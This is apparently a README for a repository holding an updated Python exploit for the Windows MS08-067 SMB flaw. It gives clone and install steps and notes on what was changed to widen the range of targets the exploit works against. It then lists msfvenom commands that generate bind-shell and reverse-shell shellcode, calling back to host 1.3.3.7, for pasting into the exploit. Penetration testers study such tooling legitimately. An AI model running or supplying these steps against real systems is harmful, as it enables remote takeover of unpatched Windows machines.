 # MS08_067 Python Exploit Script - Updated 2018

This is an updated version of the super old MS08-067 Python exploit script.  It implements some fixes to allow easy exploitation on a wider range of configurations.

Cloned and edited from this repository:
https://github.com/jivoi/pentest/

## Installation / Usage on Kali

`git clone https://github.com/andyacer/ms08_067/`

**You'll need to update Kali's Impacket version to 0_9_17**

Here in 2018, Kali's package management is on an old version of Impacket.  Here's the steps on how to fix it:

```
git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
cd impacket
pip install .
```

## Update Notes

- Added support for selecting a target port at the command line.  It seemed that only 445 was previously supported.
- Changed library calls to correctly establish a NetBIOS session for SMB transport
- Changed shellcode handling to allow for variable length shellcode. Just cut and paste into this source file.

## Generating Shellcode

Example msfvenom commands to generate shellcode.  Just paste these into the file which you'll edit after downloading.  'Cause you're an awesome hacker like that.

```
msfvenom -p windows/shell_bind_tcp RHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=62000 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```



